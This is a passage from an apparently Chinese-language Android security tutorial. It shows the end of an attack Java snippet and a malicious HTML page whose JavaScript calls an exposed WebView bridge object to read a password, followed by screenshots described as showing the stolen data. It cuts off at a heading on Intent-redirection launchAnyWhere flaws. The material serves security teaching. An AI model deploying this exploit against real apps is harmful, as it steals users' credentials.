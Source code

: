 ```
                startActivity(attackIntent);
            }
        });

    }
}
```  
  
  
  
然后我们在本地编写恶意的html，利用前面讲述的远程加载。  
```
<!DOCTYPE html>
<html>
<head>
    <meta charset="utf-8">
    <title>WebView Atack</title>
    <script>
         function callAndroid(){
            //由于对象映射，所以调用test对象等于调用Android映射的对象
            var password = test.getPassword();
            document.getElementById("getdata").innerHTML= password;
         }
</script>
</head>
<body>
   <p id="getdata">攻击获得的数据将显示在此……</p>
   <!--点击按钮则调用callAndroid函数-->
   <button type="button" id="button1" onclick="callAndroid()">CIntent Attack!</button>
</body>
</html>
```  
  
  
  
然后启动http_server：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/1UG7KPNHN8FlmaXSHgoC0UknOib3jVUiakJp4y6NnGa73d2nuYic471HfVepAJRGsk1ckKF8ovk7lZxiaH53KLWASQ/640?wx_fmt=png "")  
  
此时我们启动攻击样本，并点击按钮：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/1UG7KPNHN8FlmaXSHgoC0UknOib3jVUiakicJKqaF3CDVxxricQZ072sQAaPlV7E8us1YrAoJSpLSqobjUXCw6DDeg/640?wx_fmt=png "")  
  
   
  
这里我们可以成功的加载我们的页面说明恶意html注入成功：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/1UG7KPNHN8FlmaXSHgoC0UknOib3jVUiakRCUKO0DJIPzCIwGkq2vDib4JgQUnWxuGvIUBLWTQ5nSyVvUsC57IFHw/640?wx_fmt=png "")  
  
   
  
然后我们再次点击js中的按钮，就可以获取敏感数据。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/1UG7KPNHN8FlmaXSHgoC0UknOib3jVUiak9dia3HeVVnAz3QlwJiclgniagAZUniaTC8m9DrhfW2RpwxWgNFSiaL7v8Jw/640?wx_fmt=png "")  
  
这里就获取的敏感的数据。  
####   
#### （2）Intent重定向导致launchAnyWhere漏洞  
  